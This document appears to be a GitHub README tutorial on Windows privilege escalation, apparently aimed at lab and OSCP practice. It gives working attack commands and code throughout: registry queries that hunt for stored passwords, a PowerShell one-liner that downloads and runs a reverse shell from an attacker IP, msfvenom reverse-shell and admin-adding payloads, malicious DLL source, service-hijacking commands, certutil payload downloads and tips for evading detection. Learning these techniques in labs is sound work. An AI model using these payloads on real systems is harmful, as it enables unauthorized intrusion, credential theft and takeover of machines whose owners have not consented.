


# Windows-Privilege-Escalation

In this, we will start with an low privilege shell on the box, and will try to find out ways to escalate our privileges to get system level access on the machine. At this stage, we don't know anything about the machine. We'll enumerate the machine to find out anything that will help us to escalate our privileges.

## Required Tools
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [Nishang](https://github.com/samratashok/nishang)
- [Metasploit-local exploit suggester](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)
- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- [Winexe](https://tools.kali.org/maintaining-access/winexe)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

## Contents
- [Escalation Path Password and Port Forwarding](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Escalation-Path-Password--Port-Forwarding)
- [Escalation Path Windows Subsystem for Linux (WSL)](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Escalation-Path-Windows-Subsystem-for-Linux-(WSL))
- [Token Impersonation](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Token-Impersonation)
- [Runas](https://github.com/ayushpathak29/Windows-Privilege-Escalation#runas)
- [Registry (Autorun)](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Registry-(Autorun))
- [Registry (AlwaysInstallElevated)](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Registry-(AlwaysInstallElevated))
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)

### Escalation Path Password and Port Forwarding

1. Lets start enumerating the box with an low priviliged shell.


2. Firstly, run ```systeminfo``` to find out basic information about the machine.


3. After that, we list the other user accounts on the box by command ```net user```. To view our own user's information in a bit more detail type ```net user username``` username = alfred in this case.
 

4. Now, let's find out Services that are only available from inside. ```netstat -ano```


We found out that SMB and some other services are running inside the machine on local address and are only accesible from inside the box. We don't know credentials of any user/service yet. So let's enumerate some passwords. 

5.So let's enumerate some cleartext passwords in Registry.
```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


Great, we found out cleartext password of Admin User.

6. Now we will use [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) to port forward that internal SMB service. First of all, let's download the plink file into our machine.


7. Now forward port to your kali machine by typing the following command in the machine.
```plink.exe -l root -pw password <ip> -R 445:127.0.0.1:445```
This will allow us to access the SMB service from our kali machine.

8. Now you will get into your own terminal. Enter the following command and see that we are succesfully connected to the port.


9. Now, we'll use winexe tool to execute commands on windows box and try to login into the machine with the password we got earlier from Winlogon.


And we successully got loged-in as a administrator and escalated our privileges.

### Escalation Path Windows Subsystem for Linux (WSL)

1. 1. Lets start enumerating the box with an low priviliged shell.


2. Let's find out if there is any bash.exe or wsl.exe hidden in the machine.


3. Interesting, we find out both files, now lets run the wsl.exe and give it the "whoami" command to find out under which user is this running.

Great! It's running under the root user. Now you can try something like `wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'` to get a shell if this works. But here we'll use another method.

4. Let's run the bash.exe file, this will bring us a bash command prompt.

We have not escalated our privileges yet, so don't get excited seeing "root". We are in linux shell under the windows machine. Now let's enumerate this if we can find something interesting.

5. Under .bash_history we got credentials of SMB for Admin user.


6. Let's try to login into SMB with the credentials we got.


7. Great, it's working and we are able to login into SMB as admin user but this is not a shell, so let's get a semi-interactive shell with smbexec.


### Token Impersonation and Potato Attacks

1. Let's start our enumeration by looking for privileges of our user by running `whoami /priv`. See, we got SeImpersonatePrivilege is "Enabled".


2. Let's run [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to find out exploits for this machine. Run `systeminfo` command and copy its output in a file in your kali machine and run the Exploit suggester script.

We see, it suggests us [Hot-Potato](https://pentestlab.blog/2017/04/13/hot-potato/) exploit for this machine. 

3. Let's download a [Potato](https://github.com/ohpe/juicy-potato/releases) executable into our machine.


4. Running potato executable


5. Now create a bat script with the following data and put it into the windows machine.
`powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.3:5555/sh.ps1')`
where sh.ps1 is [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/tree/master/Shells)

6. Now start a nc listener in your kali machine and run the potato executable as in the following screenshot.  


7. As you can see we can successfully escalated our privileges.


There are also other metasploit modules available which can perform this task automatically.

### Runas

1. Here, starting with basic enumeration, type `cmdkey /list`.The Windows [Cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) command creates, lists and deletes stored user names and passwords from a computer.

We can see there are stored credentials of Administrator user. So we can use something like [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) and use these stored credentials to run a command on machine as a admin user.

2. Let's download the [nc.exe](https://github.com/int0x33/nc.exe?files=1) into the windows machine so that we can coonect to our kali box from this machine. You can find nc.exe on your kali box at "/usr/share/windows-resources/binaries/nc.exe" or simply run `locate nc.exe`.


3. Let's create a bind shell and put it into a file, and then run it with runas command to execute our shell as a administrator.


4. Great, we got a connection on our listener and `whoami` tells us that we are "system user". So, here we escalated our privileges with the help of stored credentials and runas utility of windows.


## Registry (Autorun)
1. Open command prompt and type: ```C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe``` or run Sherlock, you'll find a autoron program in “C:\Program Files\Autorun Program\program.exe”


2. In command prompt type: ```C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe –wvu "C:\Program Files\Autorun Program"```,
notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.


3. Open terminal in your attacker machine and create a payload 
```msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe```


4. Now transfer the program.exe in your windows machine.


5. Open another tab in terminal and start a listener in metasploit.


6. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

7. Wait for a new session to open in Metasploit.


- - -
### Registry (AlwaysInstallElevated)
1. Open command prompt and type ```reg query HKLM\Software\Policies\Microsoft\Windows\Installer```, notice that “AlwaysInstallElevated” value is 1.

2. Open command prompt and type ```reg query HKCU\Software\Policies\Microsoft\Windows\Installer```, notice that “AlwaysInstallElevated” value is 1.


3. Open command prompt in your kali machine and type: ```msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f msi-nouac -o setup.msi```


4. Copy the generated file, setup.msi, to the Windows VM


5. Open another tab in your kali machine and start a tcp handler.


6. Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi



7. You'll receive the connection in metasploit.


### DLL Hijacking
1. Make sure C:\Temp in the Victim Machine is a writable location for standard user.
2. DLL Injection can be done via modifying any dll file in windows which can be run by the user.
3. We can modify the dll or make our own dll .
4. The dll file can be made by compiling the following code in the attacker machine and then placing it under C:\Temp in  Victim’s machine.

CODE:
```
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
   if (dwReason == DLL_PROCESS_ATTACH) {
       system("cmd.exe /k net localgroup administrators $USER$ /add");
       ExitProcess(0);
   }
   return TRUE;
}
```

5. Replace $USER$ with standard user name account and the compile it with mingw ,
6. For 64 bit - ```x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```
For 32 bit-  ```i686-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```

The above command will generate the dll file , which we will place in C:\Temp
7. Execute the dll file inside the victim via inbuilt windows command i.e RUNDLL32.EXE
Syntax for running the dll file :

In command prompt :
   ``` 
    cd /
    cd /Temp
    RUNDLL32.EXE hijackme.dll
   ```

Boom.!  your user is now added to the local administrator group and you are having the full admin privileges .
- - -

The Accesschk tool is highly recommended to assess any sort of permissions more efficiently. Accesschk is not limited to registry keys it also enables the user to view the access lists of different Windows objects such files, processes, users and groups, and services. One of the most useful features of the tool is that
it returns objects to which a particular user or group may have write access. Using Accesschk on victim machine could be smart but also pretty risky as well so why using it?
Accesschk is a part of Sysinternals Suite which is a singed tool by Microsoft so anti viruses won’t alert when you will drop this tool on the victim machine, however on a large domain environment which have some Security products like SIME and some logical security rule sets you can get caught because it’s not common when a normal user will use Accesschk.

### Binpath

1. After gettig a initial shell, run the following command in your attackers machine, or directly run it into windows VM.
   ```
   accesschk64.exe -wuvc daclsvc
   -w	Show only objects that have write access
   -u	Suppress errors
   -v	Verbose
   -c	Name is a Windows Service
   ```


Notice that the output suggests that the user has the “SERVICE_CHANGE_CONFIG” permission.


2. Now type the following command, it will set the binpath to "net localgroup administrators user /add". And when the service will start again, this command will get executed and our user will be added in administrators group. Hence we will escalate privileges.
 
```sc config daclsvc binpath= "net localgroup administrators user /add"```


3. Now start the service by typing the following command.
 ```sc start daclsvc```

4. As we can see our user has been added in the administrators group.


### Unquoted path

1. Type the following command.
 
```sc qc unquotedsvc```
"sc qc - Displays the configuration of a particular service"


2. Create a executable file with name "common"

 ```msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe```


3. Transfer the file to windows machine and move it into "C:\Program Files\Unquoted Path Service"

```certutil.exe -urlcache -f http://192.168.43.97:8000/common.exe common.exe```

4. Now start the service by typing the following command. When the service will start, it will take the file from C:\Program Files\Unquoted Path Service\Common Files\ but we have placed our payload named common.exe in C:\Program Files\Unquoted Path Service\ so it will execute our malicious file instead of path exploiting the "unquoted path".
 
```sc start unquotedsvc```


5. As we can see our user has been added in the administrators group.



### Fileperm

1. Type the following command.
```sc qc filepermsvc```


2. Now type the following command in the terminal.

```accesschk64.exe "C:\Program Files\File Permissions Service\filepermservice.exe"```


3. Create a malicious file with the following payload or you can transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.


4. Now compile it into an executable and transfer back to windows machine.

```x86_64-w64-mingw32-gcc windows_service.c -o filepermservice.exe```

5. Now copy the file from Temp directory to the location.

```copy /y c:\Temp\filepermservice.exe "c:\Program Files\File Permissions Service\filepermservice.exe"```

6. Start the service by typing the following command.
 ```sc start filepermsvc```

7. As we can see our user has been added in the administrators group.


### Services (Registry)
1. Getting a Powershell from initial shell.


The Get-Acl cmdlet gets objects that represent the security descriptor of a file or resource. The security descriptor contains the access control lists (ACLs) of the resource. The ACL specifies the permissions that users and user groups have to access the resource. 

2. Now type the following command in your terminal. 
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
-Path => Specifies the path to a resource. Get-Acl gets the security descriptor of the resource indicated by the path.
```
This uses the Get-Acl cmdlet to get the security descriptor of the Control subkey (HKLM:\SYSTEM\CurrentControlSet\services\regsvc) of the registry.


3. Create a malicious file with the following payload or you can transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.


4. Now compile it into an executable and transfer back to windows machine.
```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

5. Copy it to C:\Temp directory

6. Now run the following command 
```reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f```


7. Start the service by typing the following command.
```sc start regsvc```

8. As we can see our user has been added in the administrators group.


### Resources
- [Fuzzysecurity](https://www.fuzzysecurity.com/tutorials/16.html)
- [OSCP-guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
